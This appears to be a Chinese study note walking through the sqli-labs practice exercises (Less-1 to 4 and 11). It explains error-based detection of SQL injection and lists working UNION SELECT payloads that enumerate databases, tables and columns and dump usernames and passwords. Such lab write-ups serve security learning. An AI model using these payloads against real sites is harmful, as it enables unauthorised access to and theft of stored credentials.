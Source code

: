 # 三、答题模式-基础知识-Less1~4

### Less-1
sql的报错会用单引号括起来，在看报错的时候注意先提取出报错的sql语句，再进行判断<br>
根据result.txt的结果，猜#被过滤，以后可以尝试--+

UNION的功能可以猜出表的列数，如：`union select 1,2--+`<br>
当数据不存在时候联查出构造的union数据。
> 注意：union all允许重复值。

- 得到数据库名<br>
 `'or 1=2 union select 1,database()--+`
- 得到所有数据库名：<br>
`?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata--+`
- 得到security数据库的所有表名:<br>
`?id=-1'  union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security'--+`
- 得到users表列属性<br>
`?id=-1'  union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+`
- 得到security数据库users表的列属性<br>
`?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users' --+`
- 爆数据
`?id=-1' union select 1,username,password from users --+`

### Less-2
sql查询也可能会使用整型where语句，因此也会直接--+得到结果<br>
整型后注释即可：<br>
`?id=1--+`<br>
`?id=1 or 1=1 --+`

### Less-3
直接`?id=1'`会报错：`near ''1'') LIMIT 0,1' at line 1`<br>
这意味着：`Select login_name, select password from table where id= ('our input here')`<br> 
因此可得`1'`后的是单引号且已闭合，缺少语句是`)`，补充语句后即可：`?id=1')--+`

### Less-4
与Less-3差不多一致，是单引号与双引号的区别而已<br>
使用`?id=1") union select 1,2,3--+`即可构造注入

### Less-11
使用网络监控得到post请求的数据，然后在hackbar构造post请求即可

